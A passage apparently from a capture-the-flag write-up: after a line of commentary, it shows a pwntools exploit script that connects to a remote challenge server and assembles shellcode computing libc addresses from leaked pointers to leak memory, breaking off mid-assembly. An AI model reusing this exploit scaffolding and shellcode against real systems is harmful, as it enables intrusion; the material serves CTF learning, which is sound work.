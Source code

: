 Although I understood the approach, I wasn't sure how to actually implement it.

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

# remote_service = ""
# remote_service = remote_service.strip().split(":")
# p = remote(remote_service[0], int(remote_service[1]))
p = remote('39.106.156.74', 15163) 
filename = "./pwn"
# p = process(filename) 
e = ELF(filename, checksec=False)
l = ELF(e.libc.path, checksec=False)

rl = lambda a=False : p.recvline(a)
ru = lambda a,b=True : p.recvuntil(a,b)
rn = lambda x : p.recvn(x)
sn = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
irt = lambda : p.interactive()
dbg = lambda text=None : gdb.attach(p, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
i2b = lambda c : str(c).encode()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
 # lg("p.pid")
 # input()
 pass

# environ = 0x3ee098
# prctl = 0x122210
def send_code():
    code = asm(
        f"""
        lea rsi, byte ptr [rip - 0x2ba]
        add rsi, 0xf69
        mov rsp, rsi
        lea rdx, byte ptr [rip + 0xfb5 - 7]
        mov r8, [rdx]
        add r8, 0x3e8
        mov r9, [r8]
        sub r9, 0x122210

        mov r8, r9
        add r8, 0x3ee098

        mov r9, [r8]
        sub r9, 0x40

        mov r8, [r9]
        sub r8, 0x11a0
        add r8, 0x4120

        mov rdi, 1
        mov rax, 1
```